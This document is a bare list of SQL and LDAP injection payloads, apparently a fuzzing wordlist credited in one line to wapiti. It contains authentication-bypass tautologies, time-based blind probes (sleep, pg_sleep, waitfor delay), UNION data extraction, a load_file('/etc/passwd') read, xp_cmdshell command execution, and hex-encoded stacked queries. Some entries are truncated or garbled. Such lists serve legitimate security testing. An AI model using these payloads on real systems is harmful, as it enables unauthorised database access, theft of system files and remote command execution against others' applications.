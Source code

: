 )%20or%20('x'='x
%20or%201=1
; execute immediate 'sel' || 'ect us' || 'er'
benchmark(10000000,MD5(1))#
update
'-''#
";waitfor delay '0:0:__TIME__'--
1) or pg_sleep(__TIME__)--
||(elt(-3+5,bin(15),ord(10),hex(char(45))))
hi"""") or (""""a""""=""""a"""
delete
like
' OR 'x'='x'#;
" or sleep(__TIME__)#
pg_sleep(__TIME__)--
*(|(objectclass=*))
declare @q nvarchar (200) 0x730065006c00650063 ...
 or 0=0 #
insert
1) or sleep(__TIME__)#
) or ('a'='a
; exec xp_regread
*|
@var select @var as var into temp end --
1)) or benchmark(10000000,MD5(1))#
asc
(||6)
a"""" or 3=3--"""
" or benchmark(10000000,MD5(1))#
# from wapiti
 or 0=0 --
1 waitfor delay '0:0:10'--
 or 'a'='a
hi or 1=1 --"
or a = a
 UNION ALL SELECT
) or sleep(__TIME__)='
)) or benchmark(10000000,MD5(1))#
hi' or 'a'='a
0
21%
limit
 or 1=1
 or 2 > 1
")) or benchmark(10000000,MD5(1))#
PRINT
hi') or ('a'='a
 or 3=3
));waitfor delay '0:0:__TIME__'--
a' waitfor delay '0:0:10'--
1;(load_file(char(47,101,116,99,47,112,97,115, ...
or%201=1
1 or sleep(__TIME__)#
or 1=1
 and 1 in (select var from temp)--
 or '7659'='7659
 or 'text' = n'text'
 --
 or 1=1 or ''='
declare @s varchar (200) select @s = 0x73656c6 ...
exec xp
; exec master..xp_cmdshell 'ping 172.10.1.255'--
3.10E+17
 or pg_sleep(__TIME__)--"
x' AND email IS NULL; --
&
admin' or '
 or 'unusual' = 'unusual'
//
truncate
1) or benchmark(10000000,MD5(1))#
\x27UNION SELECT
declare @s varchar(200) select @s = 0x77616974 ...
tz_offset
sqlvuln
"));waitfor delay '0:0:__TIME__'--
||6
or%201=1 --
%2A%28%7C%28objectclass%3D%2A%29%29
or a=a
) union select * from information_schema.tables;
PRINT @@variable
or isNULL(1/0) /*
26 %
 or ""a""=""a"
(sqlvuln)
x' AND members.email IS NULL; --
 or 1=1--
 and 1=( if((load_file(char(110,46,101,120,11 ...
0x770061006900740066006F0072002000640065006C00 ...
%20'sleep%2050'
as
1)) or pg_sleep(__TIME__)--
/**/or/**/1/**/=/**/1
 union all select @@version--
,@variable
(sqlattempt2)
 or (EXISTS)
t'exec master..xp_cmdshell 'nslookup www.googl ...
%20$(sleep%2050)
1 or benchmark(10000000,MD5(1))#
%20or%20''='
||UTL_HTTP.REQUEST
 or pg_sleep(__TIME__)--
hi' or 'x'='x';
) or sleep(__TIME__)=
 or 'whatever' in ('whatever')
; begin declare @var varchar(8000) set @var=' ...
 union select 1,load_file('/etc/passwd'),1,1,1;
0x77616974666F722064656C61792027303A303A313027 ...
exec(@s)
) or pg_sleep(__TIME__)--
 union select
 or sleep(__TIME__)#
 select * from information_schema.tables--
a' or 1=1--
a' or 'a' = 'a
declare @s varchar(22) select @s =
 or 2 between 1 and 3
 or a=a--
 or '1'='1
|
 or sleep(__TIME__)='
 or 1 --'
or 0=0 #"
having
a'
" or isNULL(1/0) /*
declare @s varchar (8000) select @s = 0x73656c ...
â�� or 1=1 --
char%4039%41%2b%40SELECT
order by
bfilename
 having 1=1--
) or benchmark(10000000,MD5(1))#
 or username like char(37);
;waitfor delay '0:0:__TIME__'--
 or 1=1--"
x' AND userid IS NULL; --
*/*
 or 'text' > 't'
 (select top 1
 or benchmark(10000000,MD5(1))#
");waitfor delay '0:0:__TIME__'--
a' or 3=3--
 -- &password=
 group by userid having 1=1--
 or ''='
; exec master..xp_cmdshell
%20or%20x=x
select
)) or sleep(__TIME__)="""
0x730065006c0065006300740020004000400076006500 ...
hi' or 1=1 --
") or pg_sleep(__TIME__)--
%20or%20'x'='x
 or 'something' = 'some'+'thing'
exec sp
29 %
(
Ã½ or 1=1 --
1 or pg_sleep(__TIME__)--
0 or 1=1
) or (a=a
uni/**/on sel/**/ect
replace
%27%20or%201=1
)) or pg_sleep(__TIME__)--
%7C
x' AND 1=(SELECT COUNT(*) FROM tabname); --
&apos;%20OR
; or '1'='1'
declare @q nvarchar (200) select @q = 0x770061 ...
1 or 1=1
; exec ('sel' + 'ect us' + 'er')
23 OR 1=1
/
anything' OR 'x'='x
declare @q nvarchar (4000) select @q =
or 0=0 --
desc
||'6
)
1)) or sleep(__TIME__)#
or 0=0 #
 select name from syscolumns where id = (sele ...
hi or a=a
*(|(mail=*))
password:*/=1--
distinct
);waitfor delay '0:0:__TIME__'--
to_timestamp_tz
) or benchmark(10000000,MD5(1))#"
%2A%28%7C%28mail%3D%2A%29%29
#NAME?
 or 1=1 /*
)) or sleep(__TIME__)='
or 1=1 or ""=
 or 1 in (select @@version)--
sqlvuln;
 union select * from users where login = char ...
x' or 1=1 or 'x'='y
28%
â�� or 3=3 --
@variable
 or '1'='1'--
a" or 1=1--
//*
%2A%7C
" or 0=0 --
)) or pg_sleep(__TIME__)--"
?
 or 1/*
!
'
 or a = a
declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000270030003A0030003A0031003000270000 exec(@q)
declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s) 
declare @q nvarchar (200) 0x730065006c00650063007400200040004000760065007200730069006f006e00 exec(@q)
declare @s varchar (200) select @s = 0x73656c65637420404076657273696f6e exec(@s)
' or 1=1
␘ or 1=1 --
x' OR full_name LIKE '%Bob%
'; exec master..xp_cmdshell 'ping 172.10.1.255'--
'%20or%20''='
'%20or%20'x'='x
')%20or%20('x'='x
' or 0=0 --
' or 0=0 #
 or 0=0 #"
' or 1=1--
' or '1'='1'--
' or 1 --'
or 1=1--
' or 1=1 or ''='
 or 1=1 or ""=
' or a=a--
 or a=a
') or ('a'='a
'hi' or 'x'='x';
or
procedure
handler
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%
'; exec master..xp_cmdshell
'; exec xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
' UNION SELECT
' UNION ALL SELECT
' or (EXISTS)
' (select top 1
'||UTL_HTTP.REQUEST
1;SELECT%20*
<>"'%;)(&+
'%20or%201=1
'sqlattempt1
29%
26%
' or ''='
' or 3=3
' or 3=3 --
